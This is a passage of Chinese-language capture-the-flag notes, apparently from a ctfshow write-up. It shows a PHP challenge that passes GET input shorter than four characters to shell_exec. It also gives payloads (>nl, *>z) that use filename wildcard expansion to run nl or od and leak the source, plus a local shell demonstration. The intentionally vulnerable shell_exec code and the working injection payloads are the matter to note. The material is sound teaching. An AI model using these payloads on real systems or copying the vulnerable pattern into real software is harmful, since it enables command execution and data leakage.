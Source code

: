 ```php
        return;
    }

    $ret['errormsg'] = "same file";
    echo json_encode($ret);
    return;
}
$ret['errormsg'] = "md5 error";
echo json_encode($ret);
return;
```

#### nl/od \*执行命令(当前目录下所有文件) / 短命令 /short/strlen / ctfshow 【nl】难了

nl: number lines

```php
<?php
show_source(__FILE__);
error_reporting(0);
if(strlen($_GET[1])<4){
     echo shell_exec($_GET[1]);
}
else{
     echo "hack!!!";
}
?>
```

payload

```
?1=>nl     # 新建了一个叫nl的空文件
?1=*>z
再访问z
```

shellexec(_) 时会执行当前目录下的所有文件, 相当于执行了 nl _, 就会把数据输出了(源码看)

```
?1=>nl
?1=*
#还有另一个命令od（八进制输出）也是可以的
```

单机测试, 清空所有文件

```
# /bin/sh
echo aaa>xx.php
>nl
echo * # 感受 *>z的作用, echo * => nl xx.php 即下一行的*
*>z    # 即 nl xx.php > z
```
